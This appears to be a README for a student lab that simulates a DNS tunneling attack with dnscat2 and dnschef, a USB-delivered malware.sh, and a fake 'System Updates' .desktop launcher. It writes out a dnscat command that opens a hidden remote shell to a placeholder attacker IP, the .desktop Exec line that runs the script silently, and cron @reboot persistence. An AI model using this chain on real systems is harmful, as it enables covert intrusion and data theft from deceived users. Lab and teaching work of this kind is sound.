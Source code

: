 # DNS Tunneling Attack Simulation

This project simulates a DNS Tunneling attack using:

- **dnscat2** for command-and-control over DNS
- **dnschef** for simulating a fake DNS server
- A **malware script** as payload
- **autorun.desktop** to simulate real-world autorun behavior

## Structure

- `/setup`:
 ### A virtual lab was created using VMware with two machines:
  #### Attacker (Kali Linux 2023.1):
  -Hosts dnscat2 (C2 server) and dnschef (fake DNS server).
  #### Victim (Ubuntu 20.04):
  -Simulates a compromised system communicating via DNS tunneling.
  
- `/dnschef`: Configuration for fake DNS domain
### The attacker machine (Kali Linux) uses dnschef, a rogue DNS proxy, to intercept DNS queries from the victim.
  -Purpose: Redirect DNS queries for a fake domain to the attacker's IP, enabling covert C2 communication.
  
   ![image](https://github.com/user-attachments/assets/0b114df3-97b7-4f8c-bc33-74e2ead71348)
   
   ![image](https://github.com/user-attachments/assets/ad52b1bb-ce61-487c-9985-94572dbec7a6)
  
  -Listener Port: 53 (standard DNS)

  -Behavior: Replies to DNS queries with the attacker's IP instead of resolving them, enabling the victim to unknowingly connect to the dnscat2 server.
  
- `/malware`: 🐛 Malware Creation and Deployment
A custom Bash script (`malware.sh`) was developed to simulate real-world malware behavior using DNS tunneling for covert Command and Control (C2) communication.
  
   ![image](https://github.com/user-attachments/assets/bb7d4a97-c78d-40bf-bebf-fd17233af4a3)

 ### 🔒 Stealthy Deployment
  -Copies the `dnscat2` client to a hidden path: `/tmp/.dns-update`
  -Sets execution permissions for silent execution
 ### 🌐 C2 Initialization
  -Establishes a DNS-based C2 channel to the attacker's server over **UDP port 53**
  -Launches the client using:
  ./dnscat --dns server=<KALI_IP>,port=53 --secret=mysecret >/dev/null 2>&1
 ### ♻️ Persistence
   -Adds a cron job with @reboot to ensure the malware runs on every system startup
 ### 💾 Infection Method:
   -Delivered via USB drive
   
- `/dnscat2`: 🧠 dnscat2 C2 Server Setup
  To complete the DNS tunneling setup, the attacker's environment includes running both the **dnscat2 C2 server** and the **dnschef fake DNS server** in parallel.
 ### ⚙️ dnscat2 Installation & Setup
 -Installs Ruby
 
   ![image](https://github.com/user-attachments/assets/412d31fa-7da7-4a84-b466-45ad59f421d7)
    
 -Clones the dnscat2 repository from GitHub to your local machine.
    
   ![image](https://github.com/user-attachments/assets/45db2ad5-10ac-4d9e-92b7-5f52021338b4)
    
 -Change directory to the dnscat2 server folder and Installs Ruby's dependency manager Bundler
    
   ![image](https://github.com/user-attachments/assets/68e13608-4294-4269-ad63-0db40c084a6d)
    
 -installs any required Ruby gems defined in the Gemfile
    
   ![image](https://github.com/user-attachments/assets/3434ca66-218e-414c-b7f3-24b3a0abca4e)
    
 -Launches the dnscat2 server, enabling it to listen for DNS queries and manage inbound communication.
  
   ![image](https://github.com/user-attachments/assets/b6bb6cac-e639-4358-b740-28270d4a04f6)
    
   (‼️ Important: Both the dnscat2 server and dnschef must run simultaneously)
   
- `/Autorun`:💾 USB-Based Delivery via `.desktop` File
  A fake `.desktop` file is used to trick users into executing a malicious script (`malware.sh`) from a USB drive. This method simulates social engineering by mimicking a legitimate system update.
### 🧿 File Example: `System Autorun.desktop`

   ![image](https://github.com/user-attachments/assets/d376af3e-9704-4379-ae58-f985797e7dbc)

-Name=System Updates: Displays a trusted label to trick the user.

-Exec=/bin/bash /media/$USER/USB/malware.sh :Executes the hidden script from the USB.

-Icon=system-software-update: Uses a familiar system icon to avoid suspicion.

-Type=Application: Treated as an executable app.

-Terminal=false: Runs silently without opening a terminal window.
    
- `/tunnel execution`: 🎯 Execution and Session Establishment
  
  -When the victim clicks the malicious .desktop file, malware.sh is executed.
  -This triggers a DNS tunnel connection to the attacker's dnscat2 C2 server.
  -A stealthy session is created, giving the attacker remote shell access.
  
   ![image](https://github.com/user-attachments/assets/ddb593fb-d9d8-4806-aea1-7439cdf3c076)

-`/result_screen shoots`:🛠 Post-Execution Actions
### Attacker can now:
  -Run remote commands
  -Monitor user activity
  -Extract sensitive data
  
   ![image](https://github.com/user-attachments/assets/92ff7011-2ee0-4a54-ae2f-08feefc32e81)

   ![image](https://github.com/user-attachments/assets/0dc1c90a-b731-422f-9393-9239207e2e55)

   ![image](https://github.com/user-attachments/assets/f7583d55-734f-4987-b58c-1a2794e56f8b)

   ![image](https://github.com/user-attachments/assets/4a8df170-2232-41c5-ac18-2efb355f1991)

   ![image](https://github.com/user-attachments/assets/4bfa987e-5d3a-480e-824e-80595ca2ea00)

   ![image](https://github.com/user-attachments/assets/a8bac9d6-28bb-403a-be7f-ba206d0ed789)
   
   ![image](https://github.com/user-attachments/assets/be0fc7a7-7857-43f1-a04e-0635634b9e0a)
   
  ![image](https://github.com/user-attachments/assets/a3baf20d-ce75-4fd7-a715-cd4706eccf8d)

  ![image](https://github.com/user-attachments/assets/ea02f761-961a-408e-bf22-596916e91812)


## How to Run (For Educational Use Only)

> ⚠️ Warning: This is for **educational and testing purposes** only. Do not use in unauthorized environments.

1. Start `dnschef` with a fake domain.
2. Launch `dnscat2-server`.
3. Place the `autorun.desktop` on the target and simulate execution.
4. The Ruby malware connects back to the `dnscat2` server.
5. You can exfiltrate data or run commands from the server.

## Legal Notice

This project is strictly for **educational purposes** and **authorized testing labs**. Do not deploy in live or unauthorized environments.
